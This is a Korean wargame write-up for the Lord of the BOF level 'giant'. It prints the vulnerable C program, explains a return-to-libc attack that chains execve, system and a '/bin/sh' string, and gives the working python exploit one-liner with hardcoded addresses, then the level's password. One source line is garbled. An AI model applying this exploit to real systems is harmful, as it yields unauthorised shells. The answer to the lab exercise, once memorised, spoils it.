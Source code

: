 ```yaml
---
layout: post
title:  "[LOB]Level14. giant"
subtitle:   "[LOB]bugbear → giant"
categories: writeup
tags: lob giant level14

---
```


# bugbear → giant

## keyword : RTL2, only execve

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
	char buffer[40];
	FILE *fp;
	char *lib_addr, *execve_offset, *execve_addr;
	char *ret;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// gain address of execve
	fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "(%x)", &lib_addr);
	fclose(fp);

	fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "%x", &execve_offset);
	fclose(fp);

	execve_addr = lib_addr + (int));
	// end

	memcpy(&ret, &(argv[1][44]), 4);
	if(ret != execve_addr)
	{
		printf("You must use execve!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

소스코드에는 다음단계의 libc주소를 파싱해서 가져와서 lib_addr에 저장을 한다.

그리고 해당 libc에서 __execve 함수 주소의  offset을 구해서 execve_offset에 저장을 한다.

`argv[1][44]` 에 주소를  ret에 저장을 하고 해당 값이 다르면 "You must use execve!"문자열을 출력하고 프로그램을 종료된다.

ret주소에 execve주소로 Buffer Overflow를 시키고 인자값으로 system함수의 주소를 넣어준다. 

system  함수의 인자로 "/bin/sh"의 주소를 넣어주면 payload가 완성된다.



execve_addr = ebp-56  => 0x080da023 / 0x400a9d48

system : 0x40058ae0

"/bin/sh" = 0x400fbff9

```sh
./giant "`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"*2+"\xf9\xbf\x0f\x40"'`"
```

"\x0a"를 엔터로 인식하기 때문에 페이로드 전체를 "" 로 묶어준다.



**giant / one step closer**